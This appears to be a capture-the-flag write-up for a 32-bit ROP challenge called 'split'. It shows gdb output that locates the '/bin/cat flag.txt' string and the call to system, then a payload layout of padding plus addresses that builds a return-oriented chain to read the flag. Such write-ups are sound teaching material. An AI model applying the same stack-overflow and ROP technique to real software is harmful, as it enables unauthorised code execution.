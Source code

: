 # split - 32bit

The string we need (`/bin/cat flag.txt`) is present in the binary.

To find its memory location:

Run `gdb` and break at `main` (`b main`).

Then once the breakpoint has hit, run `find <STRING>`. This will display all string locations with `<STRING>` in them.

```
gdb-peda$ find /bin/cat

Searching for '/bin/cat' in: None ranges
Found 1 results, display max 1 items:
split32 : 0x804a030 ("/bin/cat flag.txt")
```

We are provided with a function `usefulFunction`:

```
Dump of assembler code for function usefulFunction:
   0x08048649 <+0>:	push   ebp
   0x0804864a <+1>:	mov    ebp,esp
   0x0804864c <+3>:	sub    esp,0x8
   0x0804864f <+6>:	sub    esp,0xc
   0x08048652 <+9>:	push   0x8048747
   0x08048657 <+14>:	call   0x8048430 <system@plt>
   0x0804865c <+19>:	add    esp,0x10
   0x0804865f <+22>:	nop
   0x08048660 <+23>:	leave  
   0x08048661 <+24>:	ret    
End of assembler dump.
```

That provides us with a static address for `system` (0x08048657). We now want to use the `/bin/cat flag.txt` as an argument for `system` alongside a dud `exit` address.

Our payload will have:

```
junk            p32(0x90 x 44 bytes)
system addr     p32(0x08048657)
bin_cat addr    p32(0x0804a030)
exit addr       p32(0x90) [JUNK]
```

Running this allows us to create a ROP chain that exploits the program!
